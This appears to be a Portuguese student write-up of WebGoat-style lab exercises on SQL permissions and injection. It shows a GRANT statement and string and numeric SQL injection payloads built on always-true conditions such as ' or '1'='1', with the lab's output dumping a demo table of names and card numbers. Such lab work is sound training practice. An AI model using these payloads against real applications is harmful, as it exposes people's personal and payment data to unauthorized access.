 ### Problema 5 - Data Control Language (DCL)

Com a query SQL: 
> GRANT ALTER TABLE To UnauthorizedUser;

obteve-se:

```
Congratulations. You have successfully completed the assignment.

GRANT ALTER TABLE To UnauthorizedUser;
```

### Problema 9 - Try It! String SQL injection

Com a query SQL: 
> SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'

obteve-se:

```
You have succeeded:

USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT,
101, Joe, Snow, 987654321, VISA, , 0,
101, Joe, Snow, 2234200065411, MC, , 0,
102, John, Smith, 2435600002222, MC, , 0,
102, John, Smith, 4352209902222, AMEX, , 0,
103, Jane, Plane, 123456789, MC, , 0,
103, Jane, Plane, 333498703333, AMEX, , 0,
10312, Jolly, Hershey, 176896789, MC, , 0,
10312, Jolly, Hershey, 333300003333, AMEX, , 0,
10323, Grumpy, youaretheweakestlink, 673834489, MC, , 0,
10323, Grumpy, youaretheweakestlink, 33413003333, AMEX, , 0,
15603, Peter, Sand, 123609789, MC, , 0,
15603, Peter, Sand, 338893453333, AMEX, , 0,
15613, Joesph, Something, 33843453533, AMEX, , 0,
15837, Chaos, Monkey, 32849386533, CM, , 0,
19204, Mr, Goat, 33812953533, VISA, , 0,
```


### Problema 10 - Try It! Numeric SQL injection

Preenchendo os campos ``Login_Count`` e ``User_Id`` com valores númericos aleatórios basta garantir que em ``User_Id`` se coloca uma condição que retorna sempre ``True`` ("1" = "1").

Por exemplo, com os valores:

>Login_Count: 1

>User_Id: 1 or "1" = "1"

obteve-se:

```
You have succeeded:
USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT,
101, Joe, Snow, 987654321, VISA, , 0,
101, Joe, Snow, 2234200065411, MC, , 0,
102, John, Smith, 2435600002222, MC, , 0,
102, John, Smith, 4352209902222, AMEX, , 0,
103, Jane, Plane, 123456789, MC, , 0,
103, Jane, Plane, 333498703333, AMEX, , 0,
10312, Jolly, Hershey, 176896789, MC, , 0,
10312, Jolly, Hershey, 333300003333, AMEX, , 0,
10323, Grumpy, youaretheweakestlink, 673834489, MC, , 0,
10323, Grumpy, youaretheweakestlink, 33413003333, AMEX, , 0,
15603, Peter, Sand, 123609789, MC, , 0,
```